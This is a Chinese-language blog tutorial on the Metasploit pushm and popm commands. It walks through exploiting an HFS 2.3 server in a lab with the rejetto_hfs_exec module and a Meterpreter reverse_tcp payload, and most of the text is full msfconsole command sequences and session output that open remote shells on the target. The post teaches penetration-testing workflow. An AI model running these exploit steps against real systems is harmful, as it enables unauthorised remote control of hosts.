 ```yaml
---
layout: post
category: curleyg-code-hack
title: Metasploit之pushm和popm命令
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Metasploit之pushm和popm命令
lock: need
---
```


# Metasploit之pushm和popm命令

使用pushm命令可以将当前模块放入模块栈中，而popm将位于栈顶的模块弹出。优势在于可以实现快捷操作，从而为测试者节省大量的时间和精力。

这里考虑一个场景：我们正在测试一台有多种漏洞的内部网络服务器，而且要对其中的所有系统都进行两种不同的渗透测试。为了能对每台服务器都进行这两种测试，我们就需要一个能在这两个渗透模块之间快速切换的机制。在这种情况下就可以使用pushm和popm命令。我们可以使用一个渗透模块对服务器的某个漏洞进行测试，然后将这个模块放入模块栈中，操作完成之后再载入另一个渗透模块。使用第二个模块完成任务之后，就可以使用popm命令将第一个模块(仍然保持之前的所有选项设置)从栈中弹出。

这里，我们在目标机上部署了HFS2.3服务，如下图：

![img](https://img-blog.csdnimg.cn/20190127204454193.png)

接着，我们利用HFS 2.3的漏洞拿到目标机的Meterpreter。

```
msfconsole
msf5 > use exploit/windows/http/rejetto_hfs_exec
msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOST 192.168.175.130
RHOST => 192.168.175.130
msf5 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf5 exploit(windows/http/rejetto_hfs_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/rejetto_hfs_exec) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Using URL: http://0.0.0.0:8080/SM65nXQp
[*] Local IP: http://192.168.175.128:8080/SM65nXQp
[*] Server started.
[*] Sending a malicious request to /
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Payload request received: /SM65nXQp
[*] Meterpreter session 1 opened (192.168.175.128:4444 -> 192.168.175.130:1042) at 2019-01-25 15:41:58 +0800
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 2 opened (192.168.175.128:4444 -> 192.168.175.130:1051) at 2019-01-25 15:41:58 +0800
[!] Tried to delete %TEMP%\GjPFpxreCevs.vbs, unknown result
[*] Server stopped.

meterpreter >
```

接着，我们通过background命令将当前会话放入后台，利用pushm命令将模块放入栈中，然后利用 exploit/multi/handler 模块渗透目标主机，如下：

```
meterpreter > background
[*] Backgrounding session 2...
msf5 exploit(windows/http/rejetto_hfs_exec) > pushm 
msf5 exploit(windows/http/rejetto_hfs_exec) > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 3 opened (192.168.175.128:4444 -> 192.168.175.130:1054) at 2019-01-25 15:46:53 +0800

meterpreter > 
```

此时，我们就使用 pushm 命令将 windows/http/rejetto_hfs_exec 模块放到了栈中。并加载了 exploit/multi/handler 模块。当使用 exploit/multi/handler 模块完成操作之后，就可以使用popm命令从栈中再次加载 windows/http/rejetto_hfs_exec 模块，如下所示：

```
meterpreter > background
[*] Backgrounding session 3...
msf5 exploit(multi/handler) > popm
msf5 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.175.130  yes       The target address range or CIDR identifier
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.175.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Using URL: http://0.0.0.0:8080/8rkX9sv1CkhYsB
[*] Local IP: http://192.168.175.128:8080/8rkX9sv1CkhYsB
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /8rkX9sv1CkhYsB
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 4 opened (192.168.175.128:4444 -> 192.168.175.130:1067) at 2019-01-25 16:23:11 +0800

[*] Server stopped.
[!] This exploit may require manual cleanup of '%TEMP%\gWZaxa.vbs' on the target

meterpreter > 
```

从模块栈中弹出的windows/http/rejetto_hfs_exec跟之前的设置一样，所以无须再设置这个模块的选项了。

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
